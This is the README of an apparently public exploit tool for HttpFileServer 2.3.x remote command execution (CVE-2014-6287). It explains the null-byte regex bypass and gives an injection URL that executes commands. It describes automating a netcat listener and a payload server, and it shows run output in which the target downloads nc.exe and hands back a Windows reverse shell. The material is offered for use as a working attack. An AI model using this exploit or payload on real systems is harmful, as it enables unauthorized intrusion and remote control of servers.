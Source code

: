 # rejetto_http_rce

HttpFileServer 2.3.x Remote Command Execution
Vendor Homepage: http://rejetto.com/
Software Link: http://sourceforge.net/projects/hfs/
Version: 2.3.x
CVE : CVE-2014-6287

## Summary 

This issue exists due to a poor regex in the file ParserLib.pas
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
it will not handle null byte so a request to

http://localhost:80/?search=%00{.exec|cmd.}

will stop regex from parse macro , and macro will be executed and remote code injection happen.

## Notes

This is a rewrite as I did not like the public exploit. The public one you are required to manually start netcat 
listener and a http server, I wanted that part automated. 

## Usage

Run ./rejetto_http_rce to get the usage menu.

```sh
█▄▄▄▄ ▄███▄    ▄▄▄▄▄ ▄███▄     ▄▄▄▄▀ ████▄  ▄  █    ▄▄▄▄▀ ▄▄▄▄▀ █ ▄▄  █▄▄▄▄ ▄█▄    ▄███▄
█  ▄▀ █▀   ▀ ▄▀  █   █▀   ▀ ▀▀▀ █    █   █ █   █ ▀▀▀ █ ▀▀▀ █    █   █ █  ▄▀ █▀ ▀▄  █▀   ▀
█▀▀▌  ██▄▄       █   ██▄▄       █    █   █ ██▀▀█     █     █    █▀▀▀  █▀▀▌  █   ▀  ██▄▄
█  █  █▄   ▄▀ ▄ █    █▄   ▄▀   █     ▀████ █   █    █     █     █     █  █  █▄  ▄▀ █▄   ▄▀
  █   ▀███▀    ▀     ▀███▀    ▀               █    ▀     ▀       █      █   ▀███▀  ▀███▀
 ▀                                           ▀                    ▀    ▀
[windowsXP version without powershell]

Usage: ./rejetto_http_rce.py <HOST> <LHOST> <LPORT> <USERNAME> <PASSWORD>
EXAMPLE: ./rejetto_http_rce.py http://xx.xx.xx.xx:9505 10.10.14.24 1337

```        

Run the exploit.

```sh
⬢  rejetto_http_rce  master ⦿ ./rejetto_http_rce.py http://xx.xx.xx.xx:9505 xx.xx.xx.xx 1337
[+] LHOST = 10.11.xxx.xxx
[+] Netcat = 1337
[+] HTTP Listen = 8000
10.11.1.xx - - [26/Jan/2019 14:33:56] "GET /nc.exe HTTP/1.1" 200 -
10.11.1.xx - - [26/Jan/2019 14:33:57] "GET /nc.exe HTTP/1.1" 200 -
10.11.1.xx - - [26/Jan/2019 14:33:57] "GET /nc.exe HTTP/1.1" 200 -
10.11.1.xx - - [26/Jan/2019 14:33:57] "GET /nc.exe HTTP/1.1" 200 -

Connection from 10.11.xx.xx:49683

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\HFS>
```

